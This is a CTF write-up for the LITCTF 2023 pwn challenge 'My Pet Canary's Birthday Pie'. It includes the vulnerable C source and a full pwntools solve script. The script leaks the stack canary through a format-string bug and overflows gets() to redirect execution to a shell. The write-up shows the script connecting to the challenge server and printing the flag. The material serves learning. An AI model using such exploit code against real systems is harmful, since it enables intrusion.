


# Pwn - My Pet Canary's Birthday Pie (LITCTF 2023)

## Problem

We are given the following source file `s.c` (and its binary):

```c
#include <stdio.h>
#include <stdlib.h>

int win() {
	system("/bin/sh");
}

int vuln() {
	char buf[32];
	gets(buf);
	printf(buf);
	fflush(stdout);
	gets(buf);
}

int main() {
	setbuf(stdout, 0x0);
	setbuf(stderr, 0x0);
	vuln();
}
```

Binary properties:

```sh
└─$ pwn checksec s
[*] '/home/kali/Downloads/LITCTF-2023/s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

There are 2 vulnerabilities to take note. First, `printf(buf)` is vulnerable to a format string attack. Furthermore, `gets(buf)` is vulnerable to buffer overflow. Therefore, the goal is to:
1. Use format string vulnerability of `printf(buf)` to obtain stack canary
2. Perform buffer overflow (buffer is 32 bytes) via 2nd `gets(buf)` to overwrite return address to the `win()` function. When overwriting, we must make sure we do not modify the value of the stack canary found in step 1.

Relevant addresses for `win()` and `vuln()` are as follows:





A solve script to do this is as follows:

```python
from pwn import *
import binascii
context.update(arch="amd64",os="linux")
context.terminal = ['tmux', 'splitw', '-h']
exe = ELF('./s')
#r = process('./s')
#r = gdb.debug([exe.path], '''
#    b main
#    continue
#    b vuln
#''')
r = remote('litctf.org', 31791)

# Canary at %11$p since it looks highly random
r.sendline(b'%09$p %10$p %11$p %12$p %13$p')
data = r.recv(2048).decode('utf-8').split(' ')
print(data)
before_canary = bytes.fromhex(data[1][2:])
canary = bytes.fromhex(data[2][2:]) 
after_canary = bytes.fromhex(data[3][2:])
ret_addr = bytes.fromhex(data[4][2:])
mod_ret_addr = bytearray(ret_addr)
# Win is at 1e9, ret_addr originally at 2ae
mod_ret_addr[-1] = 0xe9
mod_ret_addr[-2] = (mod_ret_addr[-2] & 0xf0) | 0x1
ret_gad_addr = bytearray(ret_addr)
ret_gad_addr[-1] = 0xff
ret_gad_addr[-2] = (ret_gad_addr[-2] & 0xf0) | 0x1
print([before_canary, canary, after_canary, binascii.hexlify(ret_addr), binascii.hexlify(mod_ret_addr), binascii.hexlify(ret_gad_addr)])
# Buffer size is 32
# --------------------> Overwrite canary --------------------> Overwrite RA to win ------>
# [32 A's][8 bytes][Canary (looks random, 8 bytes)][8 bytes][RA, 8 bytes]

print('Canary:', [canary])
r.send(b'A' * 32)
r.send(before_canary[::-1] + b'\x00\x00')
r.send(canary[::-1])
r.send(after_canary[::-1] + b'\x00\x00')
# extra "ret" gadget is needed to "clean stack up"
r.send(ret_gad_addr[::-1] + b'\x00\x00')
r.sendline(mod_ret_addr[::-1])
r.sendline(b'cat flag.txt')
r.interactive()
r.close()
```

Sample solve script output:

```sh
└─$ python3 mypetcanarybirthdaypiesolve.py
[*] '/home/kali/Downloads/LITCTF-2023/s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to litctf.org on port 31791: Done
['0x7024333125', '0x7ffddce67aa0', '0x68c8db2745438d00', '0x7ffddce67aa0', '0x558938dd12ae']
[b'\x7f\xfd\xdc\xe6z\xa0', b"h\xc8\xdb'EC\x8d\x00", b'\x7f\xfd\xdc\xe6z\xa0', b'558938dd12ae', b'558938dd11e9', b'558938dd11ff']
Canary: [b"h\xc8\xdb'EC\x8d\x00"]
[*] Switching to interactive mode
$ ls
flag.txt
run.sh
s
s.c
$ cat flag.txt
LITCTF{rule_1_of_pwn:_use_checksec_I_think_06d2ee2b}
```

You might have noticed that a return gadget (`0xc3`) placed as the return address instead of the address of the win function. This is supposedly used to clean up the stack after buffer overflow, and solved the following error if we were to directly invoke `system("/bin/sh")`:

```sh
__libc_system (line=... "/bin/sh") at ../sysdeps/posix/system.c:179
179 ../sysdeps/posix/system.c: No such file or directory.
```

## Flag

LITCTF{rule_1_of_pwn:_use_checksec_I_think_06d2ee2b}

